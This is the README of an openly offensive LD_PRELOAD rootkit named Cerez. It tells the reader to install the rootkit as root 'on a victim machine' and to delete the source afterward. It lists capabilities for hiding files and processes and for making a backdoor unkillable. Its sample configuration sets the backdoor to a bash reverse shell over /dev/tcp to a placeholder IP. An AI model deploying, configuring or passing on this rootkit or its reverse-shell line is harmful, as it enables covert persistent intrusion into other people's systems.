

<h1 align="center">
    
  <br>
  <br>
  Cerez 😈 A simple userland LD_PRELOAD rootkit
</h1>

Cerez is a configurable userland `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls and functions like `open`, `unlinkat` etc.

## Features
- ✔ Hides files in the file system 
- ✔ Hides your backdoor in the process list 
- ❌ Hides connections in the network list
- ✔ Makes your backdoor unkillable 
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 

## Install 
### You will need to install `build-essential` to compile!
You can install it with `apt` on debian systems:
```bash
apt update && apt install build-essential
```
To install the rootkit on a victim machine run the following
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```
Don't forget to edit `cerez.cfg` before install!

## Config `(/etc/cerez.cfg)`
Configuration is (really) simple, in the `backdoor` section,
leave your backdoor/malicious command, this will be run by the rootkit everytime a program starts (if its not already running).
Your backdoor will be hidden in the process list. It will 
be also unkillable.

In the `hidden` section, specify full paths for all the files that you want hidden.
```
backdoor = "bash -c 'bash -i >& /dev/tcp/<ip>/1234 0>&1'"
hidden = (
  { path = "/etc/cerez.cfg" },
  { path = "/etc/ld.so.preload" },
  { path = "/path/to/your/super/secret/file" }
);
```

## Resources
To learn more about `LD_PRELOAD` rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
